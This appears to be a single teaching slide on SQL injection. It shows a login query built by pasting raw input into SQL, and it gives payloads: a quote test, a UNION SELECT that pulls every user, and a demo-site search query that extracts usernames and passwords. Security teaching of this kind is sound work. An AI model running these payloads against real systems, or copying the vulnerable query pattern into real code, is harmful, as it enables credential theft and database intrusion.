

# SQLi – SQL Injection
Modify SQL statements client-side to retrieve restricted data or perform unintended operations
Test with ‘
SELECT * FROM USERS WHERE UNAME=‘${INPUT}’ AND PASS=‘${PASS}’
SELECT * FROM USERS WHERE UNAME=‘AJ’ AND PASS=‘123’
SELECT * FROM USERS WHERE UNAME=‘AJ’ AND PASS=‘’ UNION SELECT * FROM USERS #’

SQLi example: go to search page on demo site and execute the following query: ' union select username,password,3 from users #